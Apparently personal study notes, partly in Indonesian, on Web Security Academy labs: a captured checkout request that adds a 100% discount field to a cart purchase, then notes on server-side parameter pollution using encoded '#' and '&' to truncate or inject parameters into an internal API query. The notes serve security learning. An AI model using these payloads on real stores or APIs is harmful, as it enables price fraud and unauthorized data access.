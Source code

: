 ```json
POST /api/checkout HTTP/2
Host: 0a440013048f589ed086dfa8005800e3.web-security-academy.net
Cookie: session=EFC2ClSfc1k8Ta6wtIoiHpAbioO6tUKj
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a440013048f589ed086dfa8005800e3.web-security-academy.net/cart
Content-Type: text/plain;charset=UTF-8
Content-Length: 92
Origin: https://0a440013048f589ed086dfa8005800e3.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

{"chosen_products":[{"product_id":"1","quantity":1}],
"chosen_discount":{"percentage":100}}
```


dan solve

# Parameter Polution



For example, you could modify the query string to the following:

`GET /userSearch?name=peter%23foo&back=/home`

The front-end will try to access the following URL:

`GET /users/search?name=peter#foo&publicProfile=true`

jika web nya mengembalikan pengguna peter itu mungkin query api nya sudah terpotong, jika mendapatkan error pesan `Invalid name` maka itu tidak valid

## Menyuntikkan parameter yang tidak valid

Anda dapat menggunakan kode URL `&` karakter untuk mencoba menambahkan parameter kedua ke permintaan sisi server.

Misalnya, Anda dapat mengubah string kueri menjadi yang berikut:

`GET /userSearch?name=peter%26foo=xyz&back=/home`

Hal ini menghasilkan permintaan sisi server berikut ke API internal:

`GET /users/search?name=peter&foo=xyz&publicProfile=true`

Tinjau respons untuk mendapatkan petunjuk tentang cara penguraian parameter tambahan. Misalnya, jika responsnya tidak berubah, hal ini mungkin menunjukkan bahwa parameter berhasil dimasukkan tetapi diabaikan oleh aplikasi.
